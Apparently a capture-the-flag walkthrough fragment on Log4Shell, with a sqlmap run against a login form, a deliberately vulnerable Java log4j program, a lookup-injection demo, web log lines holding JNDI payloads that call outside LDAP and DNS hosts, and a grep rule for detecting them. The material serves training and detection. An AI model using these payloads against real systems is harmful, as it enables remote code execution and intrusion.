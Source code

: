 trying sqlmap : sqlmap -r post_jackfrosttower.txt -p email

sqlmap unable to complete.

# log4j blue team

use `javac` to compile
use `java` to run

log4j is used for exception handling

```
use of log4j
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

elfu@8e2faf5a9f06:~/vulnerable$ java DisplayFilev2 '${java:version}'
11:13:54.096 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).

f5a9f06:~$ logshell-search.sh /var/log/www
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

searching for log

!/bin/sh
grep -E -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' $1
